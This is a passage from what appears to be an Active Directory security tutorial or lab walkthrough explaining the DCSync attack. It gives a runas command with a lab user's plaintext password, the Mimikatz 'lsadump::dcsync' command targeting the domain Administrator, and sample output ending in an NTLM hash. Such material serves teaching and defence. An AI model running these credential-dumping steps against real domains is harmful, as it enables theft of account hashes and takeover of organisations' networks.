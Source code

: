 ```
The attack can be initiated by either a user or a computer, as long as the attacker has the necessary replication permissions assigned. This makes it a potent attack method for obtaining credential hashes from the AD environment, even without direct access to the domain controller itself.

#### **Attack Process**

Here is an example of how the DCSync attack works using **Mimikatz**, a popular tool for Windows post-exploitation:

##### **Step 1: Set Up the Attacker User Account**

First, the attacker needs to impersonate a user that has the **Replicating Directory Changes** and **Replicating Directory Changes All** permissions.

* In this example, the user **Rocky** has the required permissions.
* Rocky’s password is **Slavi123**.

##### **Step 2: Start a Command Shell as the Attacker User**

The attacker uses the **runas** command to launch a command shell as the user **Rocky**:

```powershell
C:\Users\bob\Downloads> runas /user:eagle\rocky cmd.exe
Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky"
```

##### **Step 3: Use Mimikatz to Perform DCSync**

Once in the command shell, the attacker uses **Mimikatz** to dump password hashes. The attacker targets the **Administrator** account in this case:

```powershell
C:\Mimikatz> mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator
```

This command initiates the DCSync attack against the **Administrator** user in the **eagle.local** domain.

**Mimikatz Output Example:**

```plaintext
[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf
```

